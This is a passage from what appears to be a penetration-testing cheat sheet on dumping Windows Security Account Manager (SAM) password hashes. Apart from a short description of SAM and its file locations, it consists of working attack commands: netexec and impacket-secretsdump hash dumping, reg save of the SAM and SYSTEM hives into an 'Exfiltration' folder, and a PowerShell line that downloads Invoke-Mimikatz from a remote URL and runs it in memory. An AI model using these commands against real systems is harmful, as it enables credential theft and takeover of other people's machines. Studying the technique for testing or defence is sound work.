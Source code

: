 ### 1.2 Security Account Manager

The [Security Account Manager (SAM)](https://en.wikipedia.org/wiki/Security_Account_Manager) is a database file that stores users' passwords. Typically, SAM is used for local accounts, and enumerating it requires SYSTEM-level access.

According to [MITRE](https://attack.mitre.org/techniques/T1003/002/), SAM is typically used for local accounts.

Normally the SAM databases are stored in following.
```bash
%systemroot%\system32\config\sam   #main
%systemroot%\repair\sam._          #backup
```

#### 1.2.1 netexec
```bash
netexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

#### 1.2.2 Secretsdump
```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
or
impacket-secretsdump
```

#### 1.2.3 Windows
```bash
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

#### 1.2.4 Mimikatz
```bash
# Load into memory
IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")

# Dump from SAM and SYSTEM. Ensure files are in the current working directory
Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the live hive files
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

---
